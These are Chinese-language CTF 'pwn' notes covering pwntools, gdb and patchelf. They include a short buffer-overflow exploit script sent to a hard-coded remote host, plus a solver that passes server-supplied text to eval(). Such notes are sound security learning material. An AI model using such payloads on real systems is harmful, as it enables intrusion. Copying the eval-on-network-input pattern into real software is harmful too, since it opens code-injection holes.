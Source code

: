 # Pwntools

## context

context 是 pwntools 用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。
一般来说我们设置context只需要简单的一句话：`context(os='linux', arch='amd64', log_level='debug')`或者`context(os='linux', arch='amd64')`

> 这句话的意思是：
>
> 1. os设置系统为linux系统，在完成ctf题目的时候，大多数pwn题目的系统都是linux
> 2. arch设置架构为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’
> 3. log_level设置日志输出的等级为debug，这句话在调试的时候一般会设置，这样pwntools会将完整的io过程都打印下来，使得调试更加方便，可以避免在完成CTF题目时出现一些和IO相关的错误。

## 交互

```python
host = "124.223.159.125"
port = 9002
pattern = r"(-?\d+) (\+|-|\*|/) (-?\d+)"
r = remote(host, port)
# remote.interactive()
for i in range(1026):
    while 1:
        line = r.recvline()
        print(line.decode(), end='')
        match = re.search(pattern, line.decode())
        if match:
            num1 = match.group(1)
            op = match.group(2)
            num2 = match.group(3)
            result = eval(num1 + op + num2)
            print(i, num1 + op + num2, '=', result)
            print(r.recvuntil(b"input >>").decode())
            r.sendline(str(result).encode())
            break
r.interactive()
r.close()
```

## sendpayload

```python
from pwn import *
host = "149.104.24.236"
port = 6003
io = remote(host, port)
payloadtext = 0x401222
payload = b"I" * 12 + b'a' * 4 + p64(payloadtext)
dem = b'Just try~\n'
io.sendlineafter(dem, payload)
io.interactive()
```

## shellcarft

shellcraft模块是shellcode的模块，包含一些生成shellcode的函数。
其中的子模块声明架构，比如`shellcraft.arm`是ARM架构的，`shellcraft.amd64`是AMD64架构，`shellcraft.i386`是Intel 80386架构的，以及有一个`shellcraft.common`是所有架构通用的。

# gdb

## 显示数据

1. x

   1. `i`：指令形式  (`x/10i 0x111`，以指令形式显示`0x111`处的`10`个字节数据)

   1. `x`：十六进制

   1. `s`：字符串形式

2. p

## dump

`dump memory dump_flag 0x7ffff7ff8000 0x7ffff7ffd000`
`dump`内存这部分，ELF文件结构，不懂：

![](tool/image-20231207201449405.png)

## catch

### catch syscall

1. `catch syscall`
2. `catch syscall exit_groups`

## set

1. `set follow-fork-mode child`：调试到`fork`函数时，进入子进程

# patchelf
```python
biu@biu:~/Desktop$ ldd 111b00ks 
	linux-vdso.so.1 (0x00007fff6f157000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffb3fe00000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffb40410000)
biu@biu:~/Desktop$ patchelf --set-interpreter /lib64/ld-linux-x86-64.so.2  ./b00ks 
biu@biu:~/Desktop$ patchelf --replace-needed libc.so.6 /lib/x86_64-linux-gnu/libc.so.6  ./b00ks 
biu@biu:~/Desktop$ ldd b00ks 
	linux-vdso.so.1 (0x00007fff431cd000)
	/lib/x86_64-linux-gnu/libc.so.6 (0x00007fd50fe00000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd5105e5000)
```